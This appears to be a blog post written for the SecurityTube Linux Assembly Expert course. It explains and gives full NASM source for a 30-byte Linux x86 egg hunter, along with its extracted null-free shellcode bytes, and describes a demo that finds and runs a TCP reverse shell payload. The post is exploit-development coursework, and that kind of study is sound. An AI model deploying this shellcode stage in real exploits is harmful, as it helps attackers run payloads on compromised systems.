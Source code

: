 # 3. Egg Hunter (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a demo of an egg hunter that will locate and execute a shellcode payload for Linux on the x86 architecture. The goal is to avoid null bytes while making the egg hunter as small as possible.

Additionally, it should be easy to change the payload used in the demo.

## Solution

The solution is based on the [egg hunter](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) written by Matt Miller. The egg hunter will search through the virtual address space looking for an "egg string" reapeated twice. It will then continue execution after this signature.

The egg string is defined at the top of the NASM source of the egg hunter:

```nasm
global _start

egg equ 0x4b434148  ; "HACK" in ASCII (little endian)
```

The egg hunter will align to a page boundary and use the [sigaction](https://man7.org/linux/man-pages/man2/sigaction.2.html) system call to check if the memory at that location is readable. This is possible because the system call will verify 16 bytes of memory at the location pointed to by the ECX register. If the memory is not readable, it will continue to the next memory page and repeat this process:

```nasm
section .text

_start:
    ; Align ECX to page boundary (page size = 4096). We don't care about the initial value of ECX (it'll wrap around).
    or cx, 0xfff
continue:
    inc ecx
    
    ; Call 'sigaction' to check read access of memory.
    ; int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact): syscall 0x43
    ;     sigaction(whatever, memory_address, whatever)
    push 0x43
    pop eax
    int 0x80
    
    ; Check if EFAULT (= 14 -> -14 = 0xf2) is returned. If that's the case, move on to the next page.
    cmp al, 0xf2
    je _start
```

The egg hunter will then do a string comparison of the current memory location and the repeated egg string. If there is a match, execution will continue after this signature where the payload should be placed:

```nasm
    ; Compare the current four bytes of memory to the egg. If it doesn't match, move on to the next address.
    mov eax, egg
    mov edi, ecx
    scasd
    jne continue
    
    ; Compare the next four bytes of memory to the egg. If it doesn't match, move on to the next address.
    scasd
    jne continue
    
    ; We found the egg! Jump to the payload following it.
    jmp edi
```

The complete source code can be found here: [egghunter.nasm](https://github.com/SpacePlant/slae32/blob/main/egghunter.nasm)

The demo written in C contains the TCP reverse shell shellcode from the [previous assignment](2) prepended with the repeated egg string as the payload. The egg hunter is executed and will locate and execute the payload. The source code of the demo can be found here: [egghunter_demo.c](https://github.com/SpacePlant/slae32/blob/main/egghunter_demo.c)

## Results

The assembled egg hunter is 30 bytes and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d egghunter | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x48\x41\x43\x4b\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
$ echo $shellcode | tr -cd 'x' | wc -c
30
```
The compiled egg hunter demo successfully locates and executes the TCP reverse shell payload:

![Egg hunter executed](images/egghunter.png)

![Reverse shell established](images/egghunter_2.png)
